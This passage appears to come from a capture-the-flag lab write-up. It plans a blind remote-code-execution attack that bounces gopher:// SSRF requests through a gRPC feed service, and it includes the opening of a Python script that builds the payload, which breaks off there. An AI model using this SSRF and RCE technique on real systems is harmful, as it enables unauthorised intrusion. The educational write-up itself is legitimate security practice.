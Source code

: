 #### Strategy

I suspect this exploit will work here (I don't have better ideas), but I
have a few issues to overcome.

1.  In the typical case, the responses to the commands come back in the
    HTTP requests. But I can't make a direct HTTP request to the
    service, but rather only bounce requests through the gRPC instance,
    which only sends an error or "Pushing feeds". I'm going to have to
    do this blind.
2.  I need to be able to send a POST request.

To solve the first, I can choose a command like `ping` to test RCE, and
then go to a shell. Most exploits do query for the core list first, but
since I'm going blind, I can't grab that. I did get the reference to a
"staging core" in the PDF, so I'll try that. I also have a couple
examples in the last two references above, where they use `test` and
`atom` as cores. I'll try those if `staging` doesn't work.

To solve the second, I'll use
[Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)). I used this
technique in [Travel](/htb-travel.md#gopher), and showed
some of the details of how it works there. At a high level, I can use
`gopher://` to send a raw request where I can define all the content
(unlike HTTP which adds headers) and all in the url. So I can use Gopher
to create a POST request.

#### Local

Because it gets tricky creating HTTP requests from Gopher, I'm going to
first have it send requests to me so I can verify they work. Then I'll
change the host.

I created another script which looks a lot like the first two, this
time, with the url passed in being a `gopher` payload that will issue a
GET request back to my box:



    #!/usr/bin/env python3

    import base64
    import grpc
    import pickle
    import feedengine_pb2
    import feedengine_pb2_grpc
    from urllib.parse import quote


    grpc_payload = """{{
        "version": "v1.0",
        "title": "Printer Feed",
        "home_page_url": "",
        "feed_url": "{url}",
        "items": [
            {{
                "id": "2",
                "content_text": "Queue jobs"
            }},
            {{
                "id": "1",
                "content_text": "Failed items"
            }}
        ]
    }}"""
